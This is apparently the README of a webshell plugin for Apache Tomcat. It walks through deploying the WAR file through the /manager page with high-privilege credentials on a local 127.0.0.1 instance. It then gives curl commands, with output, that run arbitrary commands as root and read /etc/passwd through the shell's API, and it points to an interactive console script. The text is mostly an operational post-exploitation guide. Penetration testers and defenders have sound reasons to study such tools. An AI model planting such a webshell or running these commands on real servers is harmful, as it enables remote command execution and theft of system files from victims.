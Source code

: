 # Apache Tomcat - Upload an app

## Requirements

 - A valid **username and password** of a user with high privileges on Apache Tomcat.

## Exploitation

### Step 1: Access the Tomcat manager and upload the webshell plugin

First of all, you will need to access the Apache Tomcat `/manager` page at http://127.0.0.1:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](./imgs/manager.png)

Then choose the WAR file of the webshell plugin and click on "Deploy":

![](./imgs/upload_a_plugin.png)

And the application is deployed:

![](./imgs/webshell_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/Tomcat-plugin-webshell/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/168489455-023b52c5-e8a9-4cd9-96ca-f26c14304236.mp4

## References
 - https://tomcat.apache.org/
